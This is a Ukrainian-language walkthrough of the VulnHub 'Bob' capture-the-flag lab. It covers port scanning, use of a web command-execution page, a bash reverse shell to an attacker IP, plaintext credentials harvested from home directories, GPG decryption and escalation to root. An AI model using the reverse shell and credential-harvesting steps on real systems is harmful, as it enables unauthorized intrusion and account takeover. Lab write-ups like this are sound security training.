# Проходження CTF Bob
В цьому документі наведено розгорнуте пояснення до завдання **Capture the Flag (CTF)**, опубліковане на сайті **VulnHub** автором **"BOB"**. Відповідно до наданої автором інформації, рівень складності цього CTF — **ЛЕГКИЙ-СЕРЕДНІЙ**, а мета — отримати **root-доступ** до цільової машини та знайти **файли-флаги**.  

Завантажити CTF можна [тут](https://www.vulnhub.com/entry/bob-101,226/).  

---

## **Короткий огляд кроків вирішення CTF**

1. Отримати **IP-адресу цільової машини** (**netdiscover**).
2. Просканувати **відкриті порти цільової машини** (**nmap**).  
3. Перевірити **HTTP-сервіс** та знайти підказки.  
4. Зробити підвищення привілеїв  
   
---

### 1. Отримання **IP-адресу цільової машини**

```sh
sudo netdiscover -r 192.168.56.0/24
```

### 2. Сканування **відкритих портів цільової машини**.

```sh
sudo nmap -A --reason 192.168.56.101
```
```sh
sudo nmap -sV --reason 192.168.56.101
```

Отримуємо наступне:



Як бачимо, в нас є умовний доступ лише до вебверверу, то можна спробувати розширене сканування за допомогою **nmap**

```bash
nmap -sC -sV -p- -oN tcp_scan 10.0.2.13
```



Таким чином знайшли ssh-сервіс, якому змінили порт (один із способів захисту)

### 3. Дослідження вебсервера

У браузері відкриваємо http://192.168.56.101,  отримуємо:


При відкритті браузера на знайденому ресурсі /passwords.html знаходимо підказки, але без конкретики:



Передивимось **robots.txt**:


Декодуємо рядок з Base64:

```sh
echo "base64-Encoded-String" | base64 --decode
```

```plaintext
Flag1: https://t.me/SoftServeEducation
```

Після перегляду всіх сторінок, що ми знайшли, подальшу увагу приділимо
**http://10.0.2.13/dev_shell.php**
та спробуємо ввести команди bash, наприклад: **w, id, pwd** тощо.
Бачимо, що деякі команди відпрацьовують коректно, та можемо встановити користувача від якого виконуються ці команди.



Такий результат дає можливість спробувати отримати реверс-шел, то почнемо:
```sh
nc -lvnp 4444
```

Для створення реверсшелу на боці цілі можемо скористатись 
[ресурсом  GutHub:](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#bash-tcp)


```sh
bash -c 'bash -i >& /dev/tcp/192.168.56.102/4444 0>&1'
```


Та отримуємо наступний результат:


Почнемо певно з директорії **/home/bob**
Для виводу прихованих файлів скористаємось командою:
```sh
ls -la
``` 
Знаходимо файл під назвою **.old_passwordfile.html**
Отримуємо результат:


Маємо наступні креди:
```text
jc:Qwerty
seb:T1tanium_Pa$$word_Hack3rs_Fear_M3
```
Перевіряємо інші домашні каталоги:

```bash
cd /home/elliot
```

Маємо цікавий файл.



Визначаємо зміст:

```text
jc:Qwerty
elliot:theadminisdumb
```
Можемо зайти по ssh по специфічному порту на кожного користувача,





але права root лише в акаунта **bob**

То починаємо більш детально досліджувати директорію **/home/bob**

**cat staff.txt** - це скоріше про інтригі в команді



**cat login.txt.gpg**
Розширення “.gpg” вказує на те, що файл зашифрований за допомогою GPG (GNU Privacy Guard) або GnuPG. GPG — це безкоштовне програмне забезпечення з відкритим кодом, яке забезпечує криптографічну конфіденційність та автентифікацію під час обміну даними.
Спроба відкрити цей файл вимагає ключ дешифрування, якого у нас немає.
Тобто загальний вигляд викрристання наступний:
```sh
gpg --batch --yes --passphrase 'PASSWORD_PHRASE' -o login.txt -d login.txt.gpg
```
 - а це те, чим можна скористатись.

Визначивши незвязаність всіх команд **echo** спробуємо зв'язати перші літери кожного речення/слова в одне слово, 



отримуємо:
```text
HARPOCRATES
```

Під користувачем **www-data** немає можливості запустити **gpg**, то користуємось 
знайденими кредами:


Спробуємо розшифрувати **login.txt.gpg**
```sh
gpg --batch --yes --passphrase 'HARPOCRATES' -d login.txt.gpg
```
Розшифрований файл має вигляд:

Отримали пароль користувача bob:
```text
bob: b0bcat_
```



Переходимо в рута за допомогою команди ***su root*
Наступним кроком спробуємо залогінуватись під користувачем **bob**.
Маємо позитивний результат.

Знаходимо flag.txt та виводимо його зміст.


